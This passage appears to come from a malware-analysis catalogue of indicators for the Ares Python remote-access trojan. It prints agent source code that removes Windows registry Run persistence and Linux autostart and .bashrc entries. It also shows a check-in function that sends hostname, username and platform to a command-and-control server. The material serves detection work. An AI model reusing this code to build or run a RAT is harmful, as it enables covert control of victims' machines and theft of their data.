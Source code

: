 ### Clean

- Description: Deletes any persistence previously created
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L217
- Indicators:
  - WINDOWS:
    - Execute the `reg` command to remove its persistence

        ```python
        cmd = "reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /f /v ares"
        subprocess.Popen(cmd, shell=True)
        cmd = "reg add HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /f /v ares /t REG_SZ /d \"cmd.exe /c del /s /q %s & rmdir %s\"" % (persist_dir, persist_dir)
        subprocess.Popen(cmd, shell=True)
        ```

  - LINUX:
    - Deletes the created files and directories

        ```python
        .....
        persist_dir = self.expand_path('~/.ares')
        if os.path.exists(persist_dir):
            shutil.rmtree(persist_dir)
        desktop_entry = self.expand_path('~/.config/autostart/ares.desktop')
        if os.path.exists(desktop_entry):
            os.remove(desktop_entry)
        .....
        ```

    - Execute the following command to restore the `.bashrc`

        ```python
        os.system("grep -v .ares .bashrc > .bashrc.tmp;mv .bashrc.tmp .bashrc")
        ```

## Functionalities

### serverHello

- Description: Ask server for instructions
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L90
- Indicators:
  - Send `POST` request to the C2 with the following URL: `http(s)://[SERVER_IP]/api/USERNAME_[UUID]/hello`

    ```python
    def server_hello(self):
        """ Ask server for instructions """
        req = requests.post(config.SERVER + '/api/' + self.uid + '/hello',
            json={'platform': self.platform, 'hostname': self.hostname, 'username': self.username})
        return req.text
    ```
